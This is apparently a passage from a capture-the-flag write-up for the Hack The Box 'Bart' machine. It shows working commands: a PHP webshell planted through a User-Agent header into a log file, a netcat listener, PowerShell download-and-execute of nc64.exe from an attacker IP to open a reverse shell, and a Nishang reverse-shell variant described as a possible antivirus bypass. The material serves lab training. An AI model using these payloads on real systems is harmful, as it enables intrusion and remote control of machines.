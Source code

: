 #### 5.1. Webshell
```
# php='<?php echo exec($_GET["cmd"]);?>'
# site='http://internal-01.bart.htb/log/log.php'
# http -b "$site?filename=backdoor.php&username=harvey" User-Agent:"$php"
# http -b http://internal-01.bart.htb/log/backdoor.php?cmd=whoami
[2018-05-03 01:15:19] - harvey - nt authority\iusr
```


#### 5.2. Netcat listener
```
# ncat -nlvp 9999
...
Ncat: Connection from 10.10.10.81.
Ncat: Connection from 10.10.10.81:51637.
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\internal-01\log>
```


#### 5.3. Reverse shell (download and execute NC 64bit)
```
# payload="powershell IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.93:8888/nc64.exe', 'nc64.exe')"
# http -b http://internal-01.bart.htb/log/backdoor.php?cmd="$payload"
# http -b http://internal-01.bart.htb/log/backdoor.php?cmd="nc64.exe 10.10.14.93 9999 -e cmd.exe"
```


#### 5.4. Direct shell alternative (possible AV bypass)

1. PS1: `https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`
2. Edit: `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.93 -Port 9999`
3. Run: `Powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.93:8888/Invoke-PowerShellTcp.ps1')`
3.1. Run64: `c:\Windows\SysNative\WindowsPowerShell\v1.0\Powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.93:8888/Invoke-PowerShellTcp.ps1')` check with `PS > [environment]::Is64BitProcess`
